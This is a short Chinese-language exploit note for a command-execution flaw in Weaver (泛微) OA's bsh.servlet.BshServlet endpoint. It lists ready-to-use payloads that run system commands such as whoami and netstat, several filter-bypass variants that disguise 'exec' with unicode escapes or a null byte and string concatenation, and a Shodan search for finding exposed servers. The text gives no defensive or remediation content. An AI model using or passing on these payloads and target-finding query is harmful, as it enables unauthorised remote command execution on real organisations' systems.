



泛微OA命令执行漏洞
漏洞URL：http://oa.www.com/weaver/bsh.servlet.BshServlet

漏洞exp
payload1
bsh.script=exec("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
payload2 bypass
bsh.script=ex\u0065c("whoami");;&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
payload3 bypass
bsh.script=\u0065\u0078\u0065\u0063("whoami");
poc 1
bsh.script=\u0065\u0078\u0065\u0063("netstat -ano");;&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
Poc2:
bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.output=raw
Poc3： bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter("command"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami

搜索引擎搜索
https://www.shodan.io/search?query=Server%3A+Resin%2F3.1.8

参考资料 https://www.t00ls.net/thread-52924-1-1.html https://github.com/jas502n/e-cology